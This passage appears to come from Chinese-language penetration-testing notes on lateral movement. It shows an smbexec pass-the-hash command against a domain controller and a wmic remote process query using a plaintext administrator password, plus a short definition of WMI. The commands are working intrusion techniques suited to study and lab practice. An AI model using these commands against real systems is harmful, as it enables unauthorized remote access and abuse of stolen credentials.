 ### smbexec

```
smbexec.exe  -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100
```

![image-20220319160656572](内网渗透&横向移动/image-20220319160656572.png)



### WMI

>   WMI以CIMOM为基础，CIMOM即[公共信息模型](https://baike.baidu.com/item/公共信息模型/2719581)[对象管理器](https://baike.baidu.com/item/对象管理器/21508570)（Common Information Model Object Manager），是一个描述操作系统构成单元的对象数据库，为MMC和[脚本程序](https://baike.baidu.com/item/脚本程序/1265903)提供了一个访问操作系统构成单元的公共接口。

#### 查询进程信息

```javascript
wmic /node:192.168.188.100 /user:administrator /password:Admin123! process list brief
```
